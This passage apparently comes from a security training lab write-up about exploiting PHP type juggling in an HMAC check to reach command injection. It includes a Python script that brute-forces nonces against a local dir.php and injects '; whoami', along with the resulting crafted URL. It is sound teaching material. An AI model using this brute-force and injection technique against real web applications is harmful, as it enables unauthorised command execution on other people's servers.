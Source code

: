 Now that we have confirmed that exploitation is possible let us move on to brute-forcing a MAC value with the format required for type juggling.

* * *

## Exploitation

We need to inject our payload in the `dir` parameter to exploit the command injection vulnerability. As we can see in the function `custom_hmac`, the `nonce` parameter is also included in the MAC such that we can use it to brute-force a valid MAC of the format we require to exploit the type juggling vulnerability. Since we do not know the correct HMAC key, we cannot brute-force the MAC locally but have to send requests to the web application to brute-force it.

Let us start with a simple payload that injects the command `whoami`. To reach a correct MAC value, we could start by providing a nonce of `0` and increment it until the MAC computed by the web application is of the correct format. To do so, we can implement a simple script:

```python
import requests

URL = "http://127.0.0.1:8000/dir.php"
COOKIES = {"PHPSESSID": "0ghgh4l47ckisdg78l473tkhsv"}

DIR = "/home/htb-stdnt/; whoami"
MAC = 0
MAX_NONCE = 20000

def prepare_params(nonce):
    return {
        "dir": DIR,
        "nonce": nonce,
        "mac": MAC
    }

def make_request(nonce):
    return requests.get(URL, cookies=COOKIES, params=prepare_params(nonce))

# main
for n in range(MAX_NONCE):
    r = make_request(n)

    if not "Error! Invalid MAC" in r.text:
        print("Found valid MAC:")
        print(r.url)
        break

```

The script iterates through all nonces in the range of `0` to `20000` and prints the URL if the computed MAC is of the correct format such that the type juggling vulnerability could be exploited. Running it finds a correct nonce after a short while:

```shell
python3 solver.py

Found valid MAC:
http://127.0.0.1:8000/dir.php?dir=%2Fhome%2Fhtb-stdnt%2F%3B+whoami&nonce=3082&mac=0

```
